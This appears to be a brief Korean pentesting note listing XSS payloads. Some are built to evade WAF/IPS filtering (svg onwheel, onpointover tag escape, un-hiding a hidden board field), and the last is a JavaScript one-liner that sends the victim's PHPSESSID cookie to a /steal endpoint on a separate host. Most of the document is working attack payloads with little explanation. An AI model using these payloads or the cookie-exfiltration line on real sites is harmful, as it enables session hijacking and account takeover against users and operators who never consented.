 # xss 페이로드
"><svg/onwheel=alert'1'> 

(=onload 등 흔한 이벤트가 WAF, IPS에 필터링 되어 있을 때 우회)

aa"><onpointover="alert(1)"><input%20types="hidden"%20value=" 

(태그 탈출 후 img ,iframe등이 필터링되어 있을 때 우회)

<div class="~~~ -hidden"> 태그에서 hidden 삭제 후 활성화된 창에서 입력
  
(실제 우회 당시 게시판 내 링크 삽입 시 입력되는 창이 활성화되었음)

# CORS 정책 우회
;const img=new Image();img.src='http://192.168.0.2:5000/steal?PHPSESSID='+document.cookie.match(/PHPSESSID=([^;]+)/)[1];//'

